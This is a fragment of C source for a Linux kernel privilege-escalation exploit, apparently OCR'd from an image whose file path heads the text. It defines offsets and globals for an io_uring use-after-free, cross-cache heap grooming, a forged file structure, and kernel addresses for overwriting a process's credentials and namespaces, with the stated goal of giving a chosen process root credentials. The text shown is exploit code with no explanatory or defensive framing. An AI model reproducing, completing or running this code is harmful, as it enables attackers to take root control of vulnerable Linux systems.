 ```
// Offset from task to task->tasks.next
#define TASKS_NEXT_OFF 0x458UL
// Process name to give root creds to 
#define TARGET_TASK "blegh2"
// Our process name
#define OUR_TASK "blegh1"
// Offset from kernel base to io_uring_fops
#define FOPS_OFF 0x1220200UL

// Shared memory with child
void *g_shmem;

// Child pid
pid_t g_child = -1;

// io_uring instance to use
struct io_uring g_ring = { 0 };

// UAF file handle
int g_uaf_fd = -1;

// Track pipes
struct fd_pair {
    int fd[2];
};
struct fd_pair g_pipe = { 0 };

// The offset on the page where our `file` is
size_t g_off = 0;

// Our fake file that is a copy of a legit io_uring fd
unsigned char g_ring_copy[256] = { 0 };

// Keep track of files added in Cross-cache steps
int g_cc1_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc1_num = 0;
int g_cc2_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc2_num = 0;
int g_cc3_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc3_num = 0;

// Gadgets and offsets
uint64_t g_kern_base = 0;
uint64_t g_init_task = 0;
uint64_t g_target_task = 0;
uint64_t g_our_task = 0;
uint64_t g_cred_what = 0;
uint64_t g_nsproxy_what = 0;
uint64_t g_cred_where = 0;
uint64_t g_real_cred_where = 0;
uint64_t g_nsproxy_where = 0;
uint64_t g_files = 0;
uint64_t g_fdt = 0;
uint64_t g_file_array = 0;
uint64_t g_file_addr = 0;
uint64_t g_pipe_buf = 0;
uint64_t g_scratch = 0;
uint64_t g_fops = 0;

void err(const char* format, ...)
{
    if (!format) {
        exit(EXIT_FAILURE);
```